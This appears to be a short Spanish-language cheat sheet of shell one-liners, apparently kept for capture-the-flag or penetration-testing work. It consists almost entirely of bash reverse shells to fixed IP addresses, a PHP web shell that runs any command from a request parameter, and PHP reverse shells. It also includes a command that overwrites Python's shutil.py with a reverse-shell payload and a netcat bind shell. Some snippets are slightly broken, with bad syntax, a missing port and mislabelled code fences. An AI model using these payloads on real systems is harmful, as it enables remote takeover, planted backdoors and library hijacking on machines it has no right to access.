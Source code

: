 ### Oneliner Bash
```css
bash -c "bash -i >& /dev/tcp/10.8.203.6/9001 0>&1"
```


### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.203.6/7890 0>&1'"):
```

### Oneliner php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

### Oneliner python
```python
echo "import os; os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.203.6 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

### Blind Shell
```python
# Maquina Victima

nc -nlvp 4646 -e /bin/bash
---------------------------------------------------------------------------------------------------

# Maquina Atacante

nc IPvictima 4646

```
